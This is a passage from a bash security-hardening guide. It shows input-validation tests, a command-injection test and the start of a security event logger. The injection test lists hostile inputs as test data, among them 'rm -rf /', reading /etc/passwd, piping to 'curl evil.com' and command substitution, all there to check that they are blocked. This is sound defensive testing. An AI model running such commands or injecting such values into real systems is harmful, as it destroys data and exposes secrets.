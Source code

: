 ```bash
    if validate_input "$long_input" "^[a-zA-Z]+$" 50; then
        log_error "❌ Long input accepted"
        return 1
    else
        log_info "✅ Long input rejected"
    fi
    
    log_success "Input validation tests passed"
}
```

**Command Injection Tests:**
```bash
# Test for command injection vulnerabilities
test_command_injection() {
    # Test cases that should be blocked
    local injection_attempts=(
        "user; rm -rf /"
        "user && cat /etc/passwd"
        "user | curl evil.com"
        "user; shutdown -h now"
        "\$(rm -rf /)"
        "\`whoami\`"
    )
    
    for attempt in "${injection_attempts[@]}"; do
        if validate_input "$attempt" "^[a-zA-Z0-9_-]+$" 32; then
            log_error "❌ Injection attempt not blocked: $attempt"
            return 1
        else
            log_info "✅ Injection attempt blocked: ${attempt:0:20}..."
        fi
    done
    
    log_success "Command injection tests passed"
}
```

## Security Monitoring

### Security Event Logging

**Security Event Logger:**
```bash
# Log security events
log_security_event() {
    local event_type="$1"
    local description="$2"
    local severity="${3:-INFO}"
    
    local timestamp=$(date -u +"%Y-%m-%dT%H:%M:%SZ")
    local security_log="/var/log/security.log"
    
    # Format: timestamp|severity|event_type|description
    echo "$timestamp|$severity|$event_type|$description" >> "$security_log"
    
    # Also log to standard logging
    case "$severity" in
        "CRITICAL"|"HIGH")
            log_error "SECURITY: $event_type - $description"
            ;;
        "MEDIUM")
            log_warn "SECURITY: $event_type - $description"
            ;;
```
